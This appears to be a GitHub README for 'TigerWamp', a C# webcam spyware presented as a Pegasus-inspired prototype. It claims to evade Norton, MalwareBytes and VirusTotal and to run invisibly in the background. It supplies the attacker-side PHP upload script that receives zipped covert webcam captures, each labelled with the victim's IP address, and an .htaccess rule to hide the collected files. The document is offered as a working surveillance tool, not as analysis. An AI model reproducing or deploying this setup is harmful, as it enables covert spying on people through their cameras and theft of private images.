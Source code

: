 # TigerWamp Spyware
TigerWamp is a prototype camera spyware written in c# inspired by Pegasus!

At the time of publication, it could bypass Norton, MalwareBytes, and VirusTotal.
It runs as an invisible WPF application that hides in the middle of background processes.

To use it you need your own webserver directory "uploads/" and a php file "upload.php" with contents:

```php
<?php
$uploads_dir = './uploads/'; //Directory to save the file that comes from client application.

if ($_FILES["file"]["error"] == UPLOAD_ERR_OK && $_GET["key"] == "acdb9feb36ae9487032179261e5f12ea") {
    $tmp_name = $_FILES["file"]["tmp_name"];
    $name = $_FILES["file"]["name"];
    move_uploaded_file($tmp_name, "$uploads_dir/" . base64_encode($_SERVER['REMOTE_ADDR'] .".{" . time() . "}") . ".zip");
    echo "Ok.";
}
?> 
```
The spyware takes snapshots from the webcam (opencv cam 0). After every 40 captures the program compresses them in a zip file and uploads it to your web server.

# Recommended
Add this to your .htaccess file:
```.htaccess
RedirectMatch 404 ^/uploads/?$
```
It will make sure that only the owners of the webserver can access the content.

